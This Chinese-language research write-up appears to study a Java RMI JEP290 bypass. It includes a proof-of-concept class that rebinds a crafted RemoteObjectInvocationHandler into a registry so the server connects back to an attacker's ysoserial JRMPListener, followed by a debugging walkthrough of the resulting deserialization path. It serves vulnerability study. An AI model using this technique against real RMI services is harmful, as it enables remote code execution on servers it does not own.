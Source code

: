 ```java
package top.longlone.RMIStudy;

import sun.misc.BASE64Decoder;
import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;

import java.io.*;
import java.rmi.AlreadyBoundException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.ObjID;
import java.rmi.server.RemoteObjectInvocationHandler;
import java.util.Random;

public class vuln {
    public static void main(String[] args) throws IOException, ClassNotFoundException, AlreadyBoundException {
        Registry registry = LocateRegistry.getRegistry(2099);
        ObjID id = new ObjID(new Random().nextInt());
        TCPEndpoint te = new TCPEndpoint("127.0.0.1", 9999);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        RemoteObjectInvocationHandler handler = new RemoteObjectInvocationHandler(ref);
        // lookup方法也可以，但需要手动模拟lookup方法的流程
        registry.rebind("pwn", handler);

    }
}
```
调试过程如下:
用ysoserial启动JRMPListener，然后调试RMIRegistry，在`RemoteObject#readObject`方法中下断点，最后再运行vuln触发断点。
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20211119192153.png)
跟进readExternal方法:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20211119192454.png)
在这个方法中会读出序列化流中的 host 和端口信息，然后重新封装成一个 LiveRef 对象，将其存储到当前的 ConnectionInputStream 上，调用 saveRef 方法:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20211119192545.png)
一直跟进到RegistryImpl_Skel的oldDispatch方法:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20211119192746.png)
在服务端触发了反序列化之后，来到 `StreamRemoteCall#releaseInputStream` 方法中，在这里会调用 `ConnectionInputStream#registerRefs` 方法:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20211119193033.png)
这里又会调用DGCClient的registerRefs方法:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20211119193137.png)
最终由 DGCClient 向恶意的 JRMP 注册中心发起 lookup 连接:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20211119193200.png)
这里的攻击方法看起来与上面的**注册中心攻击客户端**有点类似，但是这里用的不是直接反序列化而是通过往注册中心rebind恶意对象触发反序列化造成的，其最终目的都是为了**让服务端变为JRMP客户端向我们恶意的JRMPRegistry发起JRMP请求**。
## 总结
所以 Bypass JEP290 的关键在于：**通过反序列化让服务端变为JRMP客户端向我们恶意的JRMPRegistry发起 JRMP 请求。**
